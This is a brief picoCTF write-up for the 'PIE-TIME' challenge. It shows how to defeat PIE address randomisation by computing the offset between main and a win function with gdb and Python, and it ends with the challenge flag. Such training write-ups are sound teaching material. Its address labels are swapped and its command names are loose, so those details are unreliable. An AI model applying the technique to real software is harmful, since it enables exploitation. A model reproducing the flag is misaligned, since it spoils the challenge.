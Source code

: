 # PIE-TIME  - PIE Exploitation (Easy)

---

## Overview 
- **Challange Type**: PIE Bypass
- **Difficulty**: Easy

## Approach

### Step1: Run the following command and view the results
- **gdb vuln**
- **info functions**

### Step2: Finding the offset
- PIE enables the generation of new random memory addresses after each runtime.
- But the offsets betweeen each address remains the same
- Copy the addresses of the main and win respectively (0x00000000000012a7, 0x000000000000133d)

### Step3: Determine the value of the offset
- **python-3 -c "print(hex(0x00000000000012a7 - 0x000000000000133d))"**

### Step4: Get win address by using obtained offset with the main address
- **python-3 -c "print(hex(0x608f5844433d - 0x96))"**

### Step5: Enter the result as the win function and get a flag like this
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_80c3b8b7}

Don't paste this flag.